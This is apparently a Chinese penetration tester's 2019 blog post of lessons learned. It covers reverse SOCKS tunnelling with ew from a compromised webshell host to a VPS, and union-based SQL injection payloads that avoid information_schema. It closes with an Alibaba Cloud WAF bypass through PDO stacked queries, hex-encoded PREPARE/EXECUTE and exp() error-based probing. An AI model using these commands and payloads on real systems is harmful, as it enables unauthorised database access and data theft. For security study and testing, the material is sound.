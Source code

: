 ```yaml
---
layout:     post
title:      渗透测试踩坑记录
subtitle:   
date:       2019-03-05
author:     sp4rk
header-img: 
catalog: true
tags:
    - pentest
---
```


## 0x00 前言：

  晚饭后比较闲一点，思考了一下觉得有必要记录一些东西，于是想着把渗透过程中遇到的坑进行记录一下，主要是耗费时间较多的地方～    留着自己以后当故事看咯。

## 0X01 数据库在内网的情况
<!--more-->
过程:
shell中把代码拖下来分析，找到了数据库的配置文件，但是数据库在内网，不允许外连。
解决：
可以通过navicat进行连接，走自带的HTTP隧道，shell中上传一个PHP的代理脚本就行了。

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbx62e6fj30d30e4mxy.jpg)

## 0x02 站库分离，数据库不能外链的情况





过程：
渗透过程中，拖取源码后，对网站的功能点进行分析，发现与数据库交互的地方和都是通过接口进行数据库的CURD操作，找到接口对应的数据库文件，发现存放在另一台机器的oracle数据库中。navicat尝试连接，发现报错：
![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxkdrk9j30cq05q74g.jpg)
我本地ping不通，telnet oracke端口也连接不了
解决：
最后在shell上发现可以ping通,于是走socks反向代理去连接数据库
shell中上传ew ，vps上弹个shell回来。
xshell新建窗口，在vps中监听2222和7777端口，

```shell
./ew_linux_i686 -s rcsocks -l 2222 -e 7777 &
```

shell中访问监听的7777端口。

```shell
./ew_linux_i686 -s rssocks -d shelip -e 7777
```
本地配置proxifier，socks5代理，端口2222

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxhcj13j30ad0dfq34.jpg)

然后再去尝试连接oracle数据库，发现还是报错，不过这次是字符集的错误,说明数据库是能连接上的，只是编码问题的报错。

![](https://tva1.sinaimg.cn/large/006y8mN6ly1g7fbxnzp6vj30kr07jt8q.jpg)

查了下ora12737错误，可以参考：[ora12737 error](https://www.cnblogs.com/jym-sunshine/p/4758626.html)，
网上说是服务器编码的问题，需要替换oci文件。这里尝试了，发现仍然报错，后面试了下英文版的navicat，发现也是报错。最后在shell里写了个脚本去把数据读出来，也算是解决了。

## 0x03 联合查询不能读information_schema的SQL注入技巧
过程：
渗透测试遇到一个注入点，可以联合查询，执行如下SQL语句：

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,3,4,5,6%23  
```

显位在3,4，这里读取数据库

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,database(),4,5,6%23
```

这里也能通过注入查database()。但是查表名的时候就没回显了，估计是没有权限

```sql
xxxx.php?id=-1 and 1=2 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()%23
```

解决：
测试了一下发现,group_concat()函数里面跟一个数字可以显示，本地测试的过程如下：

```sql
mysql> show tables;
+----------------+
| Tables_in_test |
+----------------+
| tselect        |
| user           |
+----------------+
2 rows in set (0.01 sec)

mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.tables where table_schema=database();
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.00 sec)
```

可以看到当显位在2的时候，group_concat(1)，第2位有两个1显示，说明table_name是两个。
那么我们可以用like去逐个比较久行了，比如说查表名的操作：

```sql
mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.columns where table_name like 'tselec%';
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.03 sec)

mysql> select * from user where id=-1 and 1=2 union select 1,group_concat(1),3 from information_schema.columns where table_name like 'tselect';
+------+------+----------+
| id   | user | password |
+------+------+----------+
|    1 | 1,1  | 3        |
+------+------+----------+
1 row in set (0.02 sec)
```

后续：
这里我有个疑问，information_schema数据库是公共视图，不知道为什么注入的时候读不出table_name？
换个思路，既然能测出账号密码了，就想登录后台看能不能把站搞下来，看下权限到底怎么配的，结果后台没什么功能，就到此为止了。。。

## 0x04 记录一次bypass阿里云waf

过程：站点主机在阿里云上面，url是这种样子

```html
http://target.com/xxx/aaa?type=1&a=111&b=111
```

测试注入，发现经过括号闭合--可以进行注释，返回正常，说明可以拼接SQL语句，存在注入，这里试了网上的方法尝试去绕，都被拦截了。。。

```html
aaa?type=1&a=111')+—+a&b=111
```

解决：

最后测试了下，确定为使用pdo进行多语句查询的时候存在注入的情况，用mysql用户自定义变量进行绕过。 

pdo在没有设置禁止多语句的情况下，使用模拟预处理处理是可能造成注入的。

```php
PDO::MYSQL_ATTR_MULTI_STATEMENTS = false (禁止多语句)
```

预处理模式分为1.模拟预处理：将处理完的SQL语句发送给mysql服务器，多语句的情况下可能造成注入,比如说下面user可控的时候引入多语句，造成注入。

```php
select id,$_GET['user'] from users where username=?;
  ---->  user=from users; select password    
```



2.非模拟预处理：发送sql语句模板到数据库，通过excute发送占位符到数据库进行处理（参数化绑定，先发送带占位符的sql语句，再发送占位符参数给mysql数据库执行）

预处理语句通过下面的语句对mysql进行处理

```mysql
preparestmt_name  from  preparable_stmt;
executestmt_name[using @var_name[, @var_name] ...];
preparestmt_name;
```

再来看站点的sql注入，构造payload

SET+@SQL=hexencode(需要传入的语句);PREPARE+xxxx+FROM+@SQL;EXECUTE+xxxx;+--+a

@SQL传入布尔查询语句（查询布尔条件为正确与错误那个字段都是返回的空，所以引入exp进行报错，错误的情况下是返回500）

```mysql
mysql> select if(1=2,1,exp(1024));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(1024)'
```
